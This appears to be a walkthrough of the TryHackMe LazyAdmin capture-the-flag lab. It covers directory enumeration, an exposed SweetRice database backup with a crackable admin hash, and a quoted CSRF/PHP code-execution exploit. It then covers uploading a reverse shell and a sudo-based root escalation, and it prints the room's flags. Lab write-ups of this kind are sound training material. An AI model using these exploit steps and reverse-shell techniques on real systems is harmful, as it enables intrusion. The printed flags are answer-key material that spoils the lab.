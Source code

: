 Lazy

# Basic Pentesting Wlakthrough
### Link
- https://tryhackme.com/room/basicpentestingjt
------------------------
### Recon
First scan to check all ports
```
sudo nmap -p- [IP]
```
**Namp scan result**
```
```

Now, let's perform a directory enumeration
```
 sudo gobuster dir -u http://10.10.23.230 -w [Path]/directory-list-2.3-small.txt
```
**Gobuster scan result**
```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.23.230
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /Users/laurentnebout/Documents/Tools/SecLists-master/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/01/20 05:29:36 Starting gobuster in directory enumeration mode
===============================================================
/content              (Status: 301) [Size: 314] [--> http://10.10.23.230/content/]
```
Check the link **http://[IP]/content/**

We arrive to a page that indicates the website is under construction. But the most interesting information is the CMS Framework name **SweetRice**

Now, we can check the [exploit-db](http://exploit-db.com) and try to find some exploit related to **SweetRice** CMS framework.

We found a [list](https://github.com/LNB283/THM/blob/main/EASY/LazyAdmin/Pictures/LazyAdmin_1.png) of known exploit.

We check the link **http://[IP]/content/inc/mysql_backup/** and foudn a mysql backup. We can download it and check it contents.
```
 14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\";s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',
```
```
"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\"
```
Now we have a username: **manager** and hash password : **42f749ade7f9e195bf475f37a44cafcb**

Now we need to identify the Hash type. For this step, use this [link](https://www.tunnelsup.com/hash-analyzer/)
```
MD5
```
Let's decrypt the password by using this [website](https://md5hashing.net/). You can also use **hashcat**
```
Password123
```
Now we are logged into the admin console.

----
### Exploit

If we remembered the exploit list from **exploit-db**, one of this is related to **CSRF/PHP code execution**
```
<!--
# Exploit Title: SweetRice 1.5.1 Arbitrary Code Execution
# Date: 30-11-2016
# Exploit Author: Ashiyane Digital Security Team
# Vendor Homepage: http://www.basic-cms.org/
# Software Link: http://www.basic-cms.org/attachment/sweetrice-1.5.1.zip
# Version: 1.5.1


# Description :

# In SweetRice CMS Panel In Adding Ads Section SweetRice Allow To Admin Add
PHP Codes In Ads File
# A CSRF Vulnerabilty In Adding Ads Section Allow To Attacker To Execute
PHP Codes On Server .
# In This Exploit I Just Added a echo '<h1> Hacked </h1>'; phpinfo(); 
Code You Can
Customize Exploit For Your Self .

# Exploit :
-->

<html>
<body onload="document.exploit.submit();">
<form action="http://localhost/sweetrice/as/?type=ad&mode=save" method="POST" name="exploit">
<input type="hidden" name="adk" value="hacked"/>
<textarea type="hidden" name="adv">
<?php
echo '<h1> Hacked </h1>';
phpinfo();?>
&lt;/textarea&gt;
</form>
</body>
</html>

<!--
# After HTML File Executed You Can Access Page In
http://localhost/sweetrice/inc/ads/hacked.php
  -->
```
We are able to upload a php file so we can upload our favorite reverse shell php from **pentest monkey** to gain access.

- First: move to **Ads** from the GUI
- Second: upload the reverse shell php from [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) with the appropriate IP and Port
- Third: Start a listener
- Fourth: Move to **http://[IP]/content/inc/ads/** from the browser and click on the reverse shell file
```
Connection from 10.10.23.230:43214
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 14:20:25 up  1:53,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```
Use this command to have a proper prompt
```
 python -c 'import pty; pty.spawn("/bin/bash")'
```
**Question**
#### user.txt
```
www-data@THM-Chal:/home/itguy$ cat user.txt
cat user.txt
THM{63e5bce9271952aad1113b6f1ac28a07}
```
**Answer** 
#### THM{63e5bce9271952aad1113b6f1ac28a07}

---
### Privilege escalation

Check what command we are able to perform with this user
```
www-data@THM-Chal:/home/itguy$ sudo -l
sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```
Now we need to check **backup.pl** to understand what action this **Perl** script does.
```
www-data@THM-Chal:/home/itguy$ cat backup.pl
cat backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```
Let's check the permision of **copy.sh**
```
www-data@THM-Chal:/home/itguy$ ls -l /etc/copy.sh
ls -l /etc/copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
```
Allusers can **Write** so we can modify this file ^^

Let's change the content to be able able to run **/bin/bash**
```
www-data@THM-Chal:/home/itguy$ echo "/bin/bash" > /etc/copy.sh
echo "/bin/bash" > /etc/copy.sh
```
Last step, run **backup.pl** 
```
www-data@THM-Chal:/$ sudo /usr/bin/perl /home/itguy/backup.pl
sudo /usr/bin/perl /home/itguy/backup.pl
root@THM-Chal:/# whoami
whoami
root
```
**Question**
#### user.txt
```
root@THM-Chal:/# cd root
cd root
root@THM-Chal:~# ls -l
ls -l
total 4
-rw-r--r-- 1 root root 38 nov 29  2019 root.txt
root@THM-Chal:~# cat root.txt
cat root.txt
THM{6637f41d0177b6f37cb20d775124699f}
```
**Answer** 
#### THM{6637f41d0177b6f37cb20d775124699f}
